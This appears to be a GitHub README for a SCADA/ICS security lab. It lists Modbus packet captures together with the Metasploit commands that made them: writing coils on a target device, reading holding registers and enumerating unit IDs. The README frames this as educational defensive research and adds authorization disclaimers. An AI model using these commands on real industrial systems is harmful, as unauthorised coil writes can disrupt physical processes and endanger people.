 ## Files Included
- **write.pcap**: Captures Modbus traffic where the WRITE_COILS action is performed.
- **read.pcap**: Captures Modbus traffic where the READ_HOLDING_REGISTERS action is performed.
- **findunitid.pcap**: Captures Modbus traffic where the findunitid module is used to enumerate available unit IDs.

## Metasploit Commands
### Writing to Coils (Command Injection)
```
use auxiliary/scanner/scada/modbusclient
set rhost 192.168.95.2
set data_address 40
set number 1
set data_coils 1
set action WRITE_COILS
run
```
This command writes a coil at data address `40` on the target `192.168.95.2`.

### Reading Holding Registers
```
set rhost 192.168.95.2
set data_address 0
set number 10
set action READ_HOLDING_REGISTERS
```
This command reads `10` holding registers starting from address `0` on the target `192.168.95.2`.

### Finding Unit IDs
```
use auxiliary/scanner/scada/modbus_findunitid
```
This command scans the target for active Modbus unit IDs.

## Usage
1. Load the Metasploit framework.
2. Use the corresponding module and set the required parameters.
3. Execute the attack and capture the traffic using Wireshark.
4. Analyze the `.pcap` files to observe the Modbus interactions.

## Notes
- These scripts are for educational and security research purposes only.
- Unauthorized access to systems is illegal and unethical.
- Ensure you have permission before running these tests.

## Author
This repository was created for testing SCADA/ICS security vulnerabilities and improving defensive mechanisms.


